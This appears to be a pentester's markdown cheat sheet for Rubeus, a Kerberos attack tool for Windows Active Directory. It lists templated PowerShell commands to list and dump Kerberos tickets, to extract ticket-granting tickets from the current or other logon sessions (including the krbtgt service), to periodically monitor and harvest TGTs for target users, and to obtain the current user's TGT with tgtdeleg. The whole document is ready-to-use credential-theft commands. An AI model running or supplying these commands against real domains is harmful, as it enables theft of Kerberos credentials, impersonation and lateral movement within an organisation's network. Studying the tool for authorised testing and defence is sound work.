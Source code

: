 # rubeus

% ad, windows, rubeus

#plateform/windows #target/local 



## triage - list tickets
#cat/UTILS  
```powershell
.\Rubeus.exe 
```


## triage - list tickets for a service
#cat/UTILS 
```powershell
.\Rubeus.exe triage /service:<service|ldap>
```


## klist - details of current session tickets
#cat/UTILS 
```powershell
.\Rubeus.exe klist
```

## klist - details of  other session tickets
#cat/UTILS 
```powershell
.\Rubeus.exe klist /luid:<luid>
```

## dump - extract tickets of current session 
#cat/UTILS 
```powershell
.\Rubeus.exe dump /nowrap
```

## dump - extract tgt of current session 
#cat/UTILS 
```powershell
.\Rubeus.exe dump /nowrap /service:krbtgt
```

## dump - extract tickets of another session 
#cat/UTILS 
```powershell
.\Rubeus.exe dump /nowrap /luid:<luid>
```

## dump - extract tgt of another session 
#cat/UTILS 
```powershell
.\Rubeus.exe dump /nowrap /luid:<luid> /service:krbtgt
```

## monitor - extract periodically tgt
#cat/ATTACK/EXPLOIT  
```powershell
.\Rubeus.exe monitor /nowrap /interval:<sec_delai|5>
```

## monitor - extract periodically tgt of a user
#cat/ATTACK/EXPLOIT  
```powershell
.\Rubeus.exe monitor /nowrap /interval:<sec_delai|5> /targetuser:<target_user>
```

## harvest -  monitor + auto renewal before expiration
#cat/UTILS 
```powershell
.\Rubeus.exe harvest /nowrap /interval:<sec_delai|5>
```


## harvest -  dump current user TGT
#cat/UTILS 
```powershell
.\Rubeus.exe tgtdeleg /nowrap
```